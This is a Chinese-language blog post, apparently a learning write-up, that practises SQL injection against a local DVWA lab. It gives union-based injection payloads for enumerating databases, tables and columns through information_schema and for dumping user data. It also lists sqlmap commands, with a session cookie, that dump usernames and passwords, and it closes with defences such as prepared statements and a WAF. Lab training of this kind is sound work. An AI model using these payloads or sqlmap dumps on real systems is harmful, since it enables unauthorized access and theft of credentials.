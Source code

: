 ```yaml
---
title: 记SQL注入漏洞操练
author: Pandaho
date: 2021-08-09 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/sql-injection/cover.png
---
```





## 法律声明

**中华人民共和国刑法：** 第285、286、287条

**第二百八十五条** 违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

**第二百八十六条** 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

**第二百八十七条** 利用计算机实施金融诈骗、盗窃、贪污、挪用公款、窃取国家秘密或者其他犯罪的，依照本法有关规定定罪处罚。



## 用知识的土壤来填埋这些坑洞

注入漏洞一直以来都处于[OWASP](https://owasp.org/www-project-top-ten/)榜首  
我们可以看下该项目对于注入的解释  
几乎任何数据源都可以是注入向量、环境变量、参数、外部和内部 Web 服务以及所有类型的用户。
当攻击者可以向解释器发送恶意数据时，就会出现注入缺陷。
通过[乌云](http://wooyun.2xss.cc/)我们可以看到现实存在大量注入案例

所谓SQL注入，就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。我们永远不要信任用户的输入，我们必须认定用户输入的数据都是不安全的，我们都需要对用户输入的数据进行过滤处理。  

## 危害：  

1、数据库信息泄露；  
2、私自添加系统账户；  
3、读写文件获取webshell；  
4、网页篡改：登录后台后发布恶意内容；  
5、网站挂马：拿到webshell获取服务器权限后，将网页木马挂在服务器上。 

这次我是使用DVWA搭建的靶机来进行SQL注入，DVWA的搭建方式我已经在其他文章详细写过了，这次就不再说明了，不过补充下几点，因为我是使用docker搭建的，我们要测试sql注入，有些操作需要我们进入容器再进行sql测试。  
```shell
启动容器后，我们先查看
docker ps   # 查看正在运行的容器 
确定DVWA的容器id，进入docker容器路径，进入对应id的容器，再启动mysql
docker exec -it id /bin/bash 

运行dvwa后，打开SQL Injection，我们测试输入参数，能看到返回的结果，通过查看php可以看到
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
后端服务器查询sql数据库的代码；
审计代码后我们再进行字符型注入测试成功
SELECT first_name, last_name FROM users WHERE user_id ='1' and 1=1 ;#';
这段代码是利用' 将1这个参数能and 1=1来进行逻辑运算符判断，后面加入#将其余的都注释掉。
通过发现字符型注入成功，我们再进行列数判断的注入
1' order by  1,2 #
1' union select 1,2 #
通过1，2，3，……进行增量，返回查询失败时，我们就可以判断该表的列数显示位。

ORDER BY 语句
ORDER BY 语句用于根据指定的列对结果集进行排序。
ORDER BY 语句默认按照升序对记录进行排序。

SQL UNION 操作符
UNION 操作符用于合并两个或多个 SELECT 语句的结果集。
请注意，UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的列的顺序必须相同。

1' union select 1,database() #
可以查询到当前数据库
1' union select 1,version() #
可以查询到版本信息
1' union select 1,system_user() #
可以查询到系统用户名
1' union select 1,user() #
可以查询到数据库用户名
1' union select 1,current_user() #
可以查询到当前用户名
1' union select 1,session_user() #
可以查询到连接数据库的用户名
1' union select 1,@@datadir #
可以查询到数据存储路径
1' union select 1,@@basedir #
可以查询到数据库安装路径
1' union select 1,@@version_compile_os #
可以查询到安装版本信息

那现在我们就可以来爆数据了，MySQL 自带的信息数据库：
performance_schema 用于性能分析；
information_schema 用于存储数据库元数据(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等。

1' union select 1,SCHEMA_NAME  from information_schema.SCHEMATA #
可以爆出系统现有的数据库，再优化下格式
1' union select 1,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA #

group_concat()
1、功能：将产生的同一个分组中的值连接起来，返回一个字符串结果。
2、语法：group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator '分隔符'] )
说明：通过使用distinct可以排除重复值；如果希望对结果中的值进行排序，可以使用order by子句；separator是一个字符串值，缺省为一个逗号。

我们之前已经爆出数据库名，现在再爆数据库内的表
1' union select 1,group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='dvwa' #

爆表后再爆表字段
1' union select 1,group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='users' #

爆字段后就可以爆数据了
1' union select 1,group_concat(first_name) from users #
```
环环相扣，每一步都不可忽略，从外到内拿到数据，但是这个是公开库，我们是在提前知道数据库的结构情况下爆的，难度就低很多了。

现在我们知道爆破的基本操作了，那每次爆破都如此复杂显然是不够人性化的，人类的本质都是懒惰的，所以才会有一系列工具被开发出来，[sqlmap](https://sqlmap.org/)也是其中一个。

sqlmap是一个开源的渗透测试工具，可以用来进行自动化检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎,针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

sqlmap支持MySQL, Oracle,PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird,Sybase和SAP MaxDB等数据库的各种安全漏洞检测。

```shell
我们copy注入路径，启动sqlmap
sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#" 
-u #注入点

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#" --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch
--cookie cookie注入
--batch 从不询问用户输入，使用所有默认配置。 
查询cookie的方法可以使用 javascript:alert(document.cookie) 或fidder 抓包查询
```
![图例](/assets/img/sql-injection/1.png)
```shell
sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch --dbs
可以爆出目标数据库
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch -D dvwa --tables 
知道数据库后，可以爆出表
-D “” #指定数据库名
--tables  数据库表

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch -D dvwa -T users  --columns
知道表后，再爆字段
–columns #列出字段
-T “” #指定表名

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch -D dvwa -T users  -C user,password --dump --stop 5
知道字段后爆内容，并且进行解密
-C “” #指定字段
–dump  #列出指定数据库的表的字段的数据
--stop xxx 输出指定字段数量

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch -D dvwa --count 
--count  爆出用户条目

```

由此可见sql注入的危害，而目前sql注入的防御方法主要有：  
代码层面：
1、转义用户输入的内容 
2、限制输入长度 
3、使用sql语句预处理（先将语句进行预编译，参数绑定后再传参）  
网络层面：部署waf（web防火墙）  
其他层面：定期进行安全渗透测试



## 参考来源

百度百科  
[sqlmap参数大全](https://www.cnblogs.com/Sylon/p/11747464.html)  

